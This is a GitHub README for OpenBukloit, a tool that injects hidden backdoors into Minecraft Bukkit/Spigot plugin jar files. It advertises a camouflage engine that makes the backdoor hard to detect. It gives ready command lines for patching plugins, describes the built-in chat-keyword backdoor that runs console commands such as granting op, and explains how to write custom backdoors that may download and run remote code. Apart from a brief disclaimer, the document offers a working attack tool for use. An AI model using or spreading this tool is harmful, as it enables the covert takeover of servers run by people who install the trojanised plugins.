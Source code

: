 <div align="center"><h1>OpenBukloit - Minecraft plugin backdoor injector</h1></div>

<div align="center"><img alt="Logo" src="logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-DOWNLOAD_LATEST_RELEASE_(CLICK)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Languages: [English](README.md), [Русский](lang/README_RU.md), [Українська](lang/README_UA.md)**

**OpenBukloit** is modern and powerful universal backdoor injector compatible with all Bukkit/Spigot/Paper/etc plugins. Its feature is ability to integrate with absolutely any plugin without the need to modify backdoor every time. Moreover, it provides powerful camouflage engine, which makes nearly impossible to find it without sufficient knowledge or advanced automated tools. OpenBukloit was developed to test the security systems of Minecraft servers, VoxelHax team is not responsible for its misuse.

This is a continuation of **[Bukloit](https://github.com/Rikonardo/Bukloit)** project, taking into account all the problems of the previous project and a completely different approach to development.

## OpenBukloit features
- **Full support for Bukkit and it's forks on any Minecraft version.**
- **Custom backdoor support.**
- **Automatic JDK downloading, so you don't need to care about Java version compatibility.**
- **Powerful camouflage engine, which makes it harder to find backdoor in plugin.**

## Installation
In order to use OpenBukloit you must have any Java version installed (but not lower than 8). OpenBukloit jar can be downloaded from [releases tab](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit does not require any additional actions, just put jar file somewhere and use it from command line.

## Usage
To run OpenBukloit, open command prompt in the directory where OpenBukloit jar is located and type:

```sh
java -jar OpenBukloit.jar
```

After jar file name you can pass some arguments to configure injector:

| Short Argument | Long Argument   | Description                                                                                                                                                                  | Type  |
|----------------|-----------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------|
| -e             | --exploit       | Path to custom .java or compiled .class file, that will be used as backdoor.<br />**By default uses builtin backdoor.**                                                      | Value |
| -m             | --mode          | Mode. Can be single/multiple.<br />**Default: <ins>multiple</ins>.**<br />In multiple mode, modifies all files in the specified folder. In single - only the specified file. | Value |
| -i             | --input         | Path to input folder/file (mode dependent).<br />**Default: <ins>in</ins> (<ins>in.jar</ins> if mode is single).**                                                           | Value |
| -o             | --output        | Path to output folder/file (mode dependent).<br />**Default: <ins>out</ins> (<ins>out.jar</ins> if mode is single).**                                                        | Value |
| -r             | --replace       | Replace output file if it already exists.                                                                                                                                    | Flag  |
|                | --no-camouflage | Do not apply camouflage (may be useful when camouflage not working correctly due to plugin obfuscation).                                                                     | Flag  |
|                | --class-name    | **Works only with `--no-camouflage` flag!** Specify custom exploit class name (can include package, example: `com.voxelhax.OpenBukloitExploit`).                             | Value |
|                | --method-name   | **Works only with `--no-camouflage` flag!** Specify custom name for `inject` exploit method.                                                                                 | Value |

But these arguments are not enough to run OpenBukloit. You must also specify backdoor params. Because OpenBukloit supports injecting of custom backdoors, you must pass additional arguments that required by used backdoor.

## Builtin exploit

By default, OpenBukloit injects builtin backdoor. It is a simple backdoor that allows you to execute any commands as console by writing special keyword before command in chat.

Builtin backdoor params:

| Long Argument | Description                                       |
|---------------|---------------------------------------------------|
| --key         | Keyword, that triggers console command execution. |

Ingame usage for key set to "hackthisserver":

```
hackthisserver op MyName
```

This message sent to chat will be executed as console command and give op to MyName player.

**Here is some examples of using OpenBukloit with builtin backdoor:**

1. Patch all .jar files with the "#console" key from the "in" folder and save them into the "out" folder without replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Patch all files with the "hacktheserver" key from the "in" folder and save them into the "out" folder with replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Patch single file "PluginName.jar" with "#console" key and save it as "Output.jar" file with replacement.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

4. Patch single file "PluginName.jar" with "#console" key and save it as "Output.jar" file with replacement. Do not apply camouflage and name exploit class "com.voxelhax.OpenBukloitExploit".

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r --no-camouflage --class-name "com.voxelhax.OpenBukloitExploit"
```

*Make sure you include the version number after the OpenBukloit name. So for example if the version you downloaded is `OpenBukloit-1.0.12`, make sure to use the name `OpenBukloit-1.0.12.jar` for the command instead of just `OpenBukloit.jar`*

## Writing custom exploit

You can also write your own backdoor. It should be a class with `public static void inject(JavaPlugin args)` method (JavaPlugin is from Bukkit API).

Here is a simple example:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

`inject` method will be executed after plugin's `onEnable` method. You can do everything you want here, including downloading and running some arbitrary code from internet.

But you must know that there are some limitations:
- Currently, you can't use nested classes, there is must be only one class in exploit file.
- You shouldn't reference your exploit class inside it, like using it as method params, as a return value or as a field type.

You can take external params from command line, by using %placeholders%, thay will be replaced during injection:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

And then inject it with command:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Note, that we can pass our backdoor to OpenBukloit without compiling, and it will automatically compile it with Spigot API in compiletime classpool.
